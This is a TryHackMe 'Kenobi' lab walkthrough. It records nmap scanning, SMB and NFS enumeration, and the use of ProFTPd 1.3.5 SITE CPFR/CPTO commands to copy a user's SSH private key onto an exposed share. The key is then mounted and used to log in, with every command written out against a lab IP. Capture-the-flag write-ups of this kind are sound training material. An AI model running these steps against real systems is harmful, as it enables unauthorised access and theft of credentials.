 # TryHackMe
  https://tryhackme.com/room/kenobi
  
<img src="kenobi.png"
     alt="Kenobi_Marker_icon"
     style="float: left; margin-right: 10px;" />
    
    
# Task 1 Deploy the Vulnerable Machine
  Connected to Kali and setup vpn in teminal
  
  ```sudo openvpn /home/kali/Downloads/computershane\(1\).ovpn```
  
  Attack box IP-```10.10.152.93```
  
  Host IP-```10.2.70.52```
  
  ran nmap
  
  ```nmap -A -T4 10.10.152.93```
  
  Scan the machine with nmap, how many ports are open?
  
  Answer-```7```
  
# Task 2   Enumerating Samba for shares

Using nmap we can enumerate a machine for SMB shares.

Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares!

```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.152.93```

Using the nmap command above, how many shares have been found?

Answer-```3```

Next I connected to the share

```smbclient //10.10.152.93/anonymous```

Once you're connected, list the files on the share. What is the file can you see?

I ran dir to list the contents of the share

```dir```

Answer- ```log.txt```

Recursively downloaded share by 

```smbget -R smb://10.10.152.93/anonymous```

What port is FTP running on?

Answer-```21```

using nmap to enumerate this

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.152.93```

What mount can we see?

Answer-```/var```

# Task 3 Gain initial access with ProFtpd

  using nc to connect to the machine on port 21

  ```nc 10.10.152.93 21```

  What is the version?

  Answer-```1.3.5```

  Using Searchsploit to find particular software version exploits

  How many exploits are there for the ProFTPd running?

  Answer-```3```

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands. This is done as we have access to /var.

```SITE CPFR /home/kenobi/.ssh/id_rsa```

```SITE CPTO /var/tmp/id_rsa```

Lets mount the /var/tmp directory to our machine

```mkdir /mnt/kenobiNFS```

```mount 10.10.152.93:/var /mnt/kenobiNFS  ```

```ls -la /mnt/kenobiNFS```

With the network mount on our machine, we can then go to /var/tmp to retrieve the private key

```cp /mnt/kenobiNFS/tmp/id_rsa . ```

next we need t set permissions for rw and execute,

```sudo chmod 600 id_rsa```

```ssh kenobi@10.10.152.93 -i id_rsa```










